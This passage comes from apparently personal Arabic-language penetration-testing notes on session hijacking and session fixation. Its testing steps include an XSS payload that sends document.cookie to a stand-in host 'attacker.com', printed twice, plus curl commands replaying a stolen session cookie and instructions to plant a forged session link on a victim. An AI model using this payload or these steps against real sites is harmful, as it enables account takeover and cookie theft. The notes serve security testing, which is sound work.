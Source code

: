 #### **المحاولة التالتة: اختبار سرقة الجلسة (Session Hijacking)**
**الهدف**: نشوف إذا كان المهاجم يقدر يستخدم Session ID مسروق عشان يدخل على حساب مستخدم تاني.
- **الخطوات**:
  1. سجل دخول بحساب تحت سيطرتك واستخرج الـ Session ID (مثل `session=abc123`).
  2. جرب استخدام الـ Session ID في متصفح تاني أو جهاز مختلف:
     - أضف الكوكي يدويًا في DevTools أو باستخدام cURL.
     - أرسل طلب لصفحة محمية (مثل `https://target.com/profile`).
  3. لو الطلب نجح ودخلت على الحساب، يبقى الـ Session ID مش مربوط بمعلومات إضافية (زي IP أو User-Agent).
  4. جرب هجمات عملية لسرقة الـ Session ID:
     -  ء  **MITM**: لو الكوكي بدون `Secure`، اعترض الطلبات عبر شبكة غير مشفرة.
     -  ء  **XSS**: لو الكوكي بدون `HttpOnly`، استخدم سكربت زي:
       ```javascript
       new Image().src = "https://attacker.com/steal?cookie=" + document.cookie;
       ```
     -  ء  **Social Engineering**: خدّع المستخدم عشان يشارك الـ Session ID (نادر بس ممكن).
  5. تحقق إذا الموقع بيفرض قيود على الجلسة (مثل ربط الـ Session ID بـ IP أو جهاز).
- **البيانات اللي هنجربها**:
  - Session ID: `abc123`
  - صفحات محمية: `https://target.com/profile`
- **النتيجة المتوقعة**:
  - نجاح: الـ Session ID المسروق بيسمح بالدخول من جهاز تاني، يعني الجلسة معرضة للسرقة.
  - فشل: الـ Session ID بيطلع خطأ لو استخدم في سياق مختلف، يعني الجلسة محمية.
- **الأدوات**:
  - **DevTools**: أضف الكوكي يدويًا في تبويب Application.
  - **cURL**:
    ```bash
    curl -b "session=abc123" https://target.com/profile
    ```
  - **Burp Suite**: أرسل طلبات بـ Session IDs مختلفة.
  - **XSS PoC**:
    ```javascript
    new Image().src = "https://attacker.com/steal?cookie=" + document.cookie;
    ```
- **الأوامر**:
  - cURL:
    ```bash
    curl -b "session=abc123" https://target.com/profile
    ```
  - Burp Suite:
    - اعترض طلب لصفحة محمية.
    - عدّل الـ Cookie بـ Session ID مسروق وأرسل الطلب.

### صوره ملخصه فكره ال Session Hijacking
![Pasted image 20250427080525.png|738](attachments/Pasted image 20250427080525.png|738)


---

#### **المحاولة الرابعة: اختبار تثبيت الجلسة (Session Fixation)**
**الهدف**: نشوف إذا كان الموقع بيسمح للمهاجم بفرض Session ID على المستخدم (Session Fixation).
- **الخطوات**:
  1. زور رابط للموقع يحتوي على Session ID محدد (مثل `https://target.com?session=attacker123`).
  2. أرسل الرابط لمستخدم (مثل عبر إيميل أو Social Engineering).
  3. لو المستخدم سجل دخول من الرابط، تحقق إذا كان الموقع استخدم نفس الـ Session ID (`attacker123`) بدل ما يولد واحد جديد.
  4. جرب استخدام الـ Session ID (`attacker123`) في متصفحك عشان تدخل على حساب المستخدم.
  5. لو نجحت في الدخول، يبقى الموقع معرض لـ Session Fixation.
  6. تحقق إذا الموقع بيجدد الـ Session ID بعد تسجيل الدخول (المفروض يعمل كده).
- **البيانات اللي هنجربها**:
  - رابط مزور: `https://target.com?session=attacker123`